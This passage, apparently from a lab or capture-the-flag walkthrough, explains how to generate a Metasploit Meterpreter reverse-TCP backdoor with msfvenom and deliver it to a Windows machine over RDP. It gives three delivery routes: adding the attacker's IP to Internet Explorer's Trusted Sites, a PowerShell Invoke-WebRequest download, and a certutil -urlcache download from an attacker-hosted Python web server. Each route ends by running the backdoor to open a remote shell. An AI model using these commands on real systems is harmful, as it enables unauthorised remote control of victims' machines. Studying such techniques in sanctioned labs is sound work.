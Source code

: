 I used Remmina to RDP into the machine. If you don't have it installed, you can install it using the following command: `sudo apt-get install remmina`

Create a Metasploit backdoor using msfvenom. To create the backdoor use the below syntax:

`msfvenom -p windows/meterpreter/reverse_tcp <LHOST> <LPORT> -f exe > backdoor.exe`

where LHOST is your IP and LPORT is he port Metasploit will listen for connections.

Create a Metasploit listener.

Using python create a webserver (python -m SimpleHTTPServer 80) and deliver (download) the backdoor to the target system you previously logged in.

**Delivery method I**

But first, go to Internet Explorer settings and choose "Internet Options".

![](https://i.imgur.com/JcF2ItF.png)

Click on the "Security" tab, select "Trusted Sites" and then click on the "Sites" button. Fill the "Add this website to the zone" field with your IP address and click the "Add" button.

![](https://i.imgur.com/Ma7KUdF.png)

After adding your IP to the trusted websites you can close that tab, and then click OK.

Now, you should be able to download your backdoor.

![](https://i.imgur.com/4CDggt5.png)

By pressing on the "Run" button the backdoor will be executed by the system and a connection to Metasploit will be created.

**Delivery method II**

Another delivery method would be using Powershell. Open a Powershell window and download the backdoor using the following command:

`Invoke-WebRequest http://10.x.x.x/backdoor.exe`

![](https://i.imgur.com/RG0Wdbg.png)

To execute the backdoor type `.\backdoor.exe`

**Delivery method III**

You can use certutil to download the backdoor. You can use certutil from both windows command line and Powershell commandline. The command to download the file is:

`certutil -urlcache -split -f http://10.x.x.x/backdoor.exe`

![](https://i.imgur.com/qy2Yr5c.png)

Execution of the backdoor is done in the same way as the one at method II, by typing `.\backdoor.exe`

![](https://i.imgur.com/sWfxWyb.png)
